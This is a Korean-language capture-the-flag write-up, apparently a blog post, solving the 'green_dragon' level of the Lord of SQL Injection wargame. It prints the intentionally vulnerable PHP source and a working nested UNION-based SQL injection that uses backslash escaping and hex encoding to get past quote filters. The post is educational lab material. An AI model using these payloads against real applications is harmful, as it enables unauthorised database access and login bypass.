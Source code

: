 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - green_dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다시  `los.rubiya.kr`의 서버로 돌아와서 다음 문제를 풀어보았다.  

드디어 `dragon` 시리즈의 시작이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

소스코드가 좀 길어졌다.  

쿼리가 2개가 있는데, 첫 번째 쿼리는 내가 입력한 `id`와 `pw`를 가지고 `prob_green_dragon` 테이블에서 값을 뽑아온다.  

그런데 이 후, 해당 테이블에서 추출 한 `id`와 `pw`를 가지고 다시 필터링을 거친 후에, 결과로 나왔던 그 `id`와 `pw`를 가지고 한번 더 쿼리를 수행한다.  

그래서 나온 결과값의 `id`의 값이 `admin`이라면 문제를 풀 수 있다.  

필터링에 `'(싱글쿼터)`가 있기 때문에 먼저 이를 우회해야 한다.  

이 전 문제에서 이와 유사한 문제가 있었기 때문에 아래와 같이 입력 해 필터링 우회를 시도 해 보았다.  

```
?id=\&pw= or id=0x61646d696e#
```

이를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id,pw from prob_green_dragon where id='\' and pw=' or id=0x61646d696e#'
```

때문에 `id`가 `\'and pw`이거나 `id`가 `0x61646d696e`인 값을 데이터베이스에서 찾아 추출하게 된다.  

그런데 아무리 해도 결과 값이 나오지 않았다.  

처음엔 내가 문제를 잘못푼 줄 알았는데, 다시 생각해보니 `$query2`의 존재가 의심스러웠다.  

만약에 내가 했던 방법으로 문제가 풀릴 거라면, `$query`에서 나온 결과값이 바로 데이터베이스에 저장되어 있던 `id`와 `pw`의 값이기 때문에 이에 대해 따로 필터링을 할 필요가 없을 것 같았다.  

또한 그 `id`와 `pw`로 다시 한 번 `select`를 하는 것은 무의미해 보였다.  

그러다보니 이 테이블이 비어있다고 생각하게 되었다.  

테이블에 아무런 값이 없으니 아무리 조건을 넣어도 추출 할 값이 없었던 것이다.  

그래서 두 쿼리를 거친 결과가 `select 'admin'`이 되면 문제를 풀 수 있을 것이라고 생각했다.  

일단 `$query2`를 출력시키기 위해 `id`에는 `\`를, `pw`에는 `union select 1, 2%23`를 입력 해 보았다.  

```
?id=\&pw=union select 1, 2%23
```

그 결과 아래와 같이 두 번째 쿼리가 출력되는 것을 확인할 수 있었다.  

```php
----------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
----------------------------------------------------------------------------------------------------------------

-----------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='1' and pw='2'
-----------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

예상대로 두 번째 쿼리에 1과 2가 들어갔다.  

그럼 이제 `union select 1, 2` 자리에 적당한 값을 넣어서 두 번째 쿼리가 `select admin`을 하도록 만들면 될 것 같다.  

그런데 `$result['id']`와 `$result['pw']`에 대해서도 같은 필터링이 걸려 있으므로 문자열은 사용할 수가 없고, 싱글쿼터를 우회해야 한다.  

그래서 두 번째 쿼리의 `id` 값에는 `\`가 들어가야 한다는 것을 쉽게 알 수 있다.  

이 때, `\`는 문자이기 때문에 `union select \, 2` 형태로 넣을 수 없기 때문에 `\` 또한 hex 값으로 바꾸어 넣어주어야 한다.  

문제는 `$result['pw']` 자리에 들어갈 내용이다.  

내가 만들고 싶은 두 번째 쿼리의 형태는 다음과 같다.  

```
select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#
```

그러면 뒤의 `union select 0x61646d696e`가 되어, 최종적으로 `admin`을 추출할 수 있게 된다.  

그런데 문제는 첫 번째 쿼리에서 뭐라고 입력해야 두 번째 쿼리에 내가 원하는 값을 넣을 수 있느냐는 것이었다.  

서버에서 테스트를 해 보았는데, 아래와 같이 입력하니 결과값을 얻을 수 있었다.  

```
mysql> select id, pw from user where id='\' and pw=' union select 1, (select 2);
+----+----+
| id | pw |
+----+----+
| 1  | 2  |
+----+----+
1 row in set (0.01 sec)
```

이를 그대로 넣으면, 두 번째 쿼리의 `pw` 자리에 `2`가 들어간다.  

그렇다면 `2`를 적절히 수정해서 `union select 0x61646d696e`를 만들면 된다.  

그런데 앞에서 말했다시피 싱글쿼터와 더블쿼터가 필터링 되어 있기 때문에 `hex`로 변경 해서 값을 넣어주어야 한다.  

`union select 0x61646d696e`를 하나하나 hex 값으로 바꾸면 `0x756e696f6e2073656c6563742030783631363436643639366523`이 된다.  

이 값을 아래와 같이 쿼리스트링으로 넘겨주었다.  

```
?id=\&pw= union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)%23
```

역시 내 예상과 맞게 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw=' union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)#'
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#'
------------------------------------------------------------------------------------------------------------------------------

GREEN_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

`GREEN_DRAGON Clear!`
